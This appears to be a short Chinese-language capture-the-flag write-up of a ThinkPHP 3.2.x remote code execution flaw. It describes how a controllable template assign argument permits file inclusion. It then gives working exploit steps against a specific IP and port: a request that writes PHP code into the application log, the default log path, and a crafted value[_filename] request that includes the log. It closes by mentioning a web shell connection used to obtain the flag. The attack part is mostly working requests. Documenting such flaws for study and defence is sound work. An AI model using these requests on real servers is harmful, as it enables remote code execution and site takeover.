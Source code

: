 #ThinkPHP 3.2.x远程代码执行
##漏洞描述
ThinkPHP的远程代码执行漏洞是在受影响的版本中，业务代码中如果模板赋值方法assign的第一个参数可控，则可导致模板文件路径变量被覆盖为携带攻击代码的文件路径，造成任意文件包含，执行任意代码。

##影响版本
ThinkPHP3.2.x

##利用流程
1.访问地址：118.193.36.37:59521
2.写入攻击代码到日志中。错误请求系统报错：
```
118.193.36.37:59521/index.php?m=--><?=phpinfo();?>
```
3.日志文件路径（这里是默认配置的log文件路径，ThinkPHP的日志路径和日期相关）：
```
\Application\Runtime\Logs\Common\21_07_20.log
```
4.构造攻击请求：
```
118.193.36.37:59521/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_07_20.log
```
5.蚁剑连接 测试成功 但无法访问 传入phpinfo Ctrl+g得到flag

